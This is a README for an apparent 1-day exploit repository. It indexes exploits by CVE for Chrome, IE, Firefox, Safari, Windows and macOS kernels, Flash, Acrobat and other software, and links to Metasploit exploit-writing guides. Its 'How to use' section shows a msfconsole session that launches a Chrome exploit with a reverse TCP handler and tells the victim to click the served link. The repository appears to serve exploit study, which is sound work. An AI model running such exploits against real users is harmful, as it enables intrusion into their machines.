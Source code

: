 # 1-day exploits
1day exploit repo

## Database
CVE Number | Target | Type | OS | Version | Author 
---------- | -------| ---- | -- | ------- | ------ 
[CVE-2019-5825](windows/browser/chromium/941743/README.md) | Chrome | Browser | Windows | 73.0.3683.86 (64bit) | _Hwiwon Lee_
[CVE-2017-????](linux/browser/chromium/716044/README.md) | Chrome | Browser | Linux | 60.0.3080.5 (64bit) | _Hwiwon Lee_
[CVE-2016-1646](windows/browser/chromium/594574/README.md) | Chrome | Browser | Windows | 49.0.2623.87 (64bit) | _Hwiwon Lee_
[CVE-2017-????](windows/browser/chromium/746946/README.md) | Chrome | Browser | Windows | 59.0.3071.109 (64bit) | _Hwiwon Lee_
[CVE-2016-3207](windows/browser/ie/20163207/README.md) | IE | Browser | Windows | 11.0.9600.17420(32bit) | _Hyeonhak Kim_
[CVE-2017-0037](windows/browser/ie/20170037/README.md) | IE | Browser | Windows | 11.0.9600.18537(32bit) | _Hyeonhak Kim_
[CVE-2019-9760](windows/FTP/FTPGetter5.97/README.md) | FTPGetter | FTP Client | Windows | 5.97.0.177(64bit) | _Hyeonhak Kim_
[CVE-2016-????](windows/FTP/FTPShell5.24/README.md) | FTPShell | FTP Client | Windows | 5.24(32bit) | _Hyeonhak Kim_
[CVE-2019-0803](windows/kernel/ms19_0803_win32k_privesc/README.md) | win7 x64 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2018-8639](windows/kernel/ms18_8639_win32k_privesc/README.md) | win7 x32 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2019-????](linux/browser/chromium/46654/README.md) | Chrome | Browser | Linux | 74.0.3702.0 (64bit) | _Youngjoon Kim_
[CVE-2019-????](linux/browser/chromium/46748/README.md) | Chrome | Browser | Linux | 74.0.3725.0 (64bit) | _Youngjoon Kim_
[CVE-2019-0752](windows/browser/ie/20190752/README.md) | IE | Browser | Windows | 11.379.17763.0 (64bit) | _Youngjoon Kim_
[CVE-2017-5375&CVE-2016-1960](windows/browser/firefox/Firefox%2044.0.2%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-1960)/README.md) | firefox | Browser | Windows | 44.0.2 | _Sungha Park_
[CVE-2017-5375&CVE-2016-2819](windows/browser/firefox/Firefox%2046.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-2819)/README.md) | firefox | Browser | Windows | 46.0.1 | _Sungha Park_
[CVE-2017-5375&CVE-2016-9079](windows/browser/firefox/Firefox%2050.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-9079)/README.md) | firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2017-5415](windows/browser/firefox/Mozilla%20Firefox%20-%20Address%20Bar%20Spoofing/README.md) | firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2019-0541](windows/browser/ie/Microsoft%20Windows%20MSHTML%20Engine%20-%20Edit%20Remote%20Code%20Execution(CVE-2019-0541)/README.md) | ie | Browser | Windows | 8.0.6001.18702| _Sungha Park_
[CVE-2019-9766](windows/windows/player/free_mp3_cd_ripper/README.md) | Free MP3 CD Ripper | player | Windows | 2.6 | _Sungha Park_
[CVE-2019-???(EDB-46279)](windows/player/HTML5%20Video%20Player/README.md) | HTML5 Video Player | player | Windows | 1.2.5 | _Sungha Park_
[CVE-2018-4314](macos/browser/safari/cve-2018-4314/README.md) | Safari | Browser | macOS | 11.1.2 (64bit) | _Hwiwon Lee_
[CVE-2017-15399](windows/browser/chromium/201715399/README.md) | Chrome | Browser | Windows | 62.0.3202.89  | _Youngjoon Kim_
[CVE-2018-4878](windows/flash/20184878/README.md) | Adobe Flash Player | Flash Player | Windows | 28.0.0.137 | _Younggi Park_
[CVE-2018-15877](linux/wordpress/README.md) | wordpress | Application | linux | 20161228 and prior | _Sungha Park_
[CVE-2015-5932](macos/kernel/cve-2015-5932/README.md) | macOS | Kernel | macOS | < 10.11 | _Hwiwon Lee_
[CVE-2018-4990](windows/PDF_Reader/CVE-2018-4990/README.md) | Adobe Acrobat Reader DC | PDF Reader | Windows | 17.00920044, 18.01120038 | _Younggi Park_
[CVE-2017-5070](windows/browser/chromium/20175070/README.md) | Chrome | Browser | Windows | 58.0.3029.110  | _Youngjoon Kim_

## Metasploit
[Official Repo](https://github.com/rapid7/metasploit-framework)  
[How to write a browser exploit using BrowserExploitServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-BrowserExploitServer)  
[How to write a browser exploit using HttpServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer)  

## vulncode-db 
Useful vulnerable code db site [demo](https://www.vulncode-db.com/) and [open source](https://github.com/google/vulncode-db)

## Environment Setup
### Chromium
[Downloading old builds of Chrome / Chromium](https://www.chromium.org/getting-involved/download-chromium)
### Internet Explorer
[Downloading old version update of IE](https://www.catalog.update.microsoft.com)

### Acrobat Reader
Downloading old version of Adobe Reader : ftp://ftp.adobe.com/pub/adobe/reader/win

## How to use
### Attacker
```
$ msfconsole
...
[*] Starting persistent handler(s)...
msf5 > use exploit/windows/browser/chrome_v8_oob_access_594574 
msf5 exploit(windows/browser/chrome_v8_oob_access_594574) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Using URL: http://0.0.0.0:8080/B3mDU4Cmr
[*] Local IP: http://127.0.0.1:8080/B3mDU4Cmr
[*] Server started.
```

### Victim
Click the url link :D
